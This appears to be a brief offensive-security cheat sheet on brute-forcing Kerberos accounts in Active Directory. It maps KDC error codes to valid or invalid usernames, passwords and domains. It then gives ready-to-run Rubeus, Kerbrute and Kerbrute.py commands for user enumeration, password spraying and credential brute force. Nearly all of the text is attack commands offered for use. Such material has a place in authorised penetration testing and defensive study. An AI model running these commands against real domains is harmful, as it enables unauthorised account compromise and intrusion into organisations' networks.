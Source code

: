 ```yaml
---
category: Uncategorized
tags: []
---
```

#rubeus #kerbrute
# Brute Force
We can brute force username and password based on the errors that we get from kerberos.
- `KDC_ERR_PREAUTH_FAILED`: Incorrect password
- `KDC_ERR_C_PRINCIPAL_UNKNOWN`: Invalid username
- `KDC_ERR_WRONG_REALM`: Invalid domain
- `KDC_ERR_CLIENT_REVOKED`: Disabled/Blocked user
### Rubeus
```powershell
./rubeus.exe brute /password:<password> /noticket
```
### Kerbrute (go)
1. User Enumeration
```bash
./kerbrute userenum -d mydomain.local usernames.txt
```
2. Password brute-force
```bash
cat user_password.txt | ./kerbrute -d mydomain.local bruteforce -
```
### Kerbrute.py
```bash
python kerbrute.py -domain mydomain.local -users user.txt -passwords pass.txt -dc-ip <ip>
```
